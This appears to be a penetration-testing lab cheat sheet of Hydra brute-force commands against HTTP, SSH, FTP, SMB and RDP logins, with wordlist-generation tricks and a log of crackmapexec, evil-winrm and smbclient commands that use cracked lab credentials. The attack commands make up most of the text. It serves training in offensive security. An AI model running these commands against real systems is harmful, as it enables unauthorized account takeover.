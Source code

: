 # Hydra

| **Command**   | **Description**   |
| --------------|-------------------|
| `hydra -h` | hydra help |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - Combined Wordlist |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Basic Auth Brute Force - User/Pass Wordlists |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - User/Pass Wordlists |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Static User, Pass Wordlist |

# Wordlists

| **Command**   | **Description**   |
| --------------|-------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt` | Default Passwords Wordlist |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt` | Common Passwords Wordlist |
| `/opt/useful/SecLists/Usernames/Names/names.txt` | Common Names Wordlist |

# Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `cupp -i` | Creating Custom Password Wordlist |
| `sed -ri '/^.{,7}$/d' william.txt` | Remove Passwords Shorter Than 8 |
| ```sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``` | Remove Passwords With No Special Chars |
| `sed -ri '/[0-9]+/!d' william.txt` | Remove Passwords With No Numbers |
| `./username-anarchy Bill Gates > bill.txt` | Generate Usernames List |
| `ssh b.gates@SERVER_IP -p PORT` | SSH to Server |
| `ftp 127.0.0.1` | FTP to Server |
| `su - user` | Switch to User |

```shell
crackmapexec winrm 10.129.252.193 -u username.list -p password.list
hydra -L username.list  -P password.list -u -f ssh://10.129.252.193:22 -t 4
rdesktop -u john -p november 10.129.252.193
evil-winrm -i 10.129.252.193 -u john -p november
ssh dennis@10.129.252.193 
hydra -L username.list  -P password.list -u -f smb://10.129.252.193 -t 4 
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193 -t 4 
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193
hydra -L username.list  -P password.list -u -f rdp://10.129.252.193 -I
hydra -L username.list  -P password.list -u -f smb://10.129.252.193
crackmapexec smb 10.129.252.193 -u username.list -p password.list
rdesktop -u chris -p 789456123 10.129.252.193
crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares
smbclient -U john \\\\10.129.252.193\\
crackmapexec smb 10.129.42.197 -u "john" -p "november" --shares
crackmapexec smb 10.129.42.197 -u "john" -p "november"
crackmapexec smb 10.129.42.197 -u "cassie" -p "12345678910" --shares
crackmapexec smb 10.129.42.197 -u "chris" -p "789456123" --shares
crackmapexec smb 10.129.252.193 -u "cassie" -p "12345678910" --shares
smbclient -U cassie \\\\10.129.252.193\\CASSIE
```